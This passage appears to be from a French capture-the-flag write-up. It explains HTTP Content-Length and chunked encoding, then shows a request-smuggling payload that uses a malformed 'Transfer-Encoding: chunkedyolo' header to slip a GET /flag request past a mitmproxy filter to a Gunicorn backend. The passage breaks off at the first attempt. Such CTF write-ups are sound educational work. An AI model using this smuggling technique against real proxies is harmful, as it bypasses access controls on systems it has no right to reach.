 Ici, on a l'indication que le backend est un *Gunicorn*. L'identité du frontend n'est pas donné mais si on envoie une requête HTTP malformée on reçoit un message d'erreur *mitmproxy*.

Il semble ainsi que les vieilles versions de mitmproxy soient vulnérables au request smugling. Les détails de fonctionnement entre mitmproxy et Gunicorn se basent sur la vérification de l'entête Content-Encoding comme décrit dans [la solution de ce CTF](https://blog.deteact.com/gunicorn-http-request-smuggling/) qui est très proche de notre situation.

Seulement ici... ça ne marche pas tout à fait pareil.

Mais avant il est important de rappeler à quoi ressemble une requête classique avec Content-Length :

```http
POST /api HTTP/1.1\r\n
Host: truc.com\r\n
Content-Length: 5\r\n
\r\n
12345
```

That's it ! J'ai indiqué les CRLF ("\r\n") pour les détails. Si la connexion est gardée ouverte (keep-alive) pour enchainer les requêtes alors la requête suivante reprendra exactement à la suite (sans CRLF entre les deux).

Maintenant voyons une requête chunked :

```http
POST /api HTTP/1.1\r\n
Host: truc.com\r\n
Transfer-Encoding: chunked\r\n
\r\n
5\r\n
12345\r\n
0\r\n
\r\n
```

Un block de données chunk correspond à sa taille (ici 5) dans sa représentation hexadécimale suivi d'un CRLF, suivi des données elles mêmes suivies d'un CRLF.

Pour terminer on trouve à la fin un chunk vide (de taille 0) suivi de son CRLF et encore d'un CRLF car il n'y a pas de données.

## Exploit time

L'objectif du CTF est d'accéder à la resource /flag qui est filtrée par le *mitmproxy*.

Mes premières tentatives ont consisté à envoyer ceci :

```http
POST /nawak HTTP/1.1\r\n
Host: 192.168.242.131\r\n
Transfer-Encoding: chunkedyolo\r\n
Content-Length: 4\r\n
Connection: keep-alive\r\n
\r\n
2d\r\n
GET /flag HTTP/1.1\r\n
Host: 192.168.242.131\r\n
\r\n
\r\n
0\r\n
\r\n
GET /yolo HTTP/1.1\r\n
Host: 192.168.242.131\r\n
\r\n
```
